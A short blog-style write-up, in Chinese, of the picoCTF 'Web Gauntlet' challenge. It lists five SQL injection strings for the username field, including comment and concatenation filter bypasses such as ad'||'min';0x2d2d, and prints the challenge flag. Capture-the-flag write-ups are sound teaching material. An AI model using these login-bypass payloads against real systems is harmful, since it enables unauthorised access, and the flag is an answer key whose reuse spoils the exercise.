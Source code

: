 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

```
1. admin';--
2. admin';0x2d2d
3. admin';0x2d2d
4. ad'||'min';0x2d2d
5. ad'||'min';0x2d2d
```

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}